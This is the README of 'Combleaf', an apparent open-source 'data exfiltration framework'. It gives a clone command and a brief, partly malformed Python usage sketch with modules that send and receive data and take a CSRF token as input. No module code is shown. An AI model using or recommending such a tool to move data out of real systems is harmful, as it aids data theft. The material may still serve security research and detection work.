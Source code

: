 # Combleaf
Combleaf is a modular data exfiltration framework and repository of data exfiltration methods

# Install
```git clone https://github.com/secureighty/combleaf```

# How do I get started
```
#read the module readme to find out what data you need for a module
data_dict = {
  csrf_token:"whatevertoken
}
mycomb = combleaf.Combleaf("modules.<pick a module>", data_dict)
mycomb.send("whatever data you want")
mydata = mycomb.recv()
```
